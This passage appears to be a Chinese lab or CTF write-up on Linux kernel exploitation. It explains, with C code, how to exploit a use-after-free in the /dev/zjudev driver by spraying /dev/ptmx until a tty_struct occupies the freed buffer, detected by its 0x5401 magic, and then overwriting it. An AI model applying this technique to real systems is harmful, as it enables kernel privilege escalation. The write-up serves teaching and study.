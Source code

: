 在结构体的起始地址有一个`magic`变量，其值会被初始化成`0x5401`，而我们尽管不知道`tty_struct`结构体的地址，但是可以通过读取`/dev/zjudev`分配的缓冲区内容，判断最开始的四个字节是否为`0x5401`即可

3. 具体实现上，可以使用一个死循环，不断打开`/dev/ptmx`设备，判断`/dev/zjudev`的缓冲区内容是否为`0x5401`，当结果为是，则跳出循环，返回`ptmx`的文件描述符
4. 之后，我们就可以通过调用`/dev/zjudev`设备的`write`接口，修改缓冲区内容，进而修改`tty_struct`结构体的内容

> Q2. 如何确定自己所控制的指针一定被分配给` tty_struct`结构体

见之前的分析，通过`tty_struct`结构体开头的`magic`变量的值进行判断

附代码：

```c++
#define TTY_STRUCT_SIZE 0x2B8
#define TTY_MAGIC 0x5401

size_t tty_op_buf[36];
char tty_buf[TTY_STRUCT_SIZE];

int init_dev() {
    int dev1 = open("/dev/zjudev", O_RDWR);
    int dev2 = open("/dev/zjudev", O_RDWR);
    ioctl(dev1, 0x0001, TTY_STRUCT_SIZE);
	close(dev1);
	return dev2;
}

int init_ptmx(int dev_fd) {
    int ptmx_fd;
    for (;;) {
        ptmx_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY);
        memset(tty_buf, '\0', sizeof(tty_buf));
        read(dev_fd, tty_buf, TTY_STRUCT_SIZE - 1);
        for (size_t i = 0; i < TTY_STRUCT_SIZE; i += 8) {
            char v_str[9];
            memcpy(v_str, tty_buf + i, 8);
            v_str[8] = '\0';
            printf("tty_buf + %lu = 0x%lx\n", i, *(size_t*)v_str);
        }
        size_t magic = 0;
        memcpy(&magic, tty_buf, 4);
        if (magic == TTY_MAGIC) break; 
        printf("\n");
    }
    printf("TTY_MAGIC match! ptmx_fd = %d\n", ptmx_fd);
    return ptmx_fd;
}

int main(int argc, char* argv[]) {
    int dev_fd = init_dev();
	int ptmx_fd = init_ptmx(dev_fd);
    return 0;
}

```
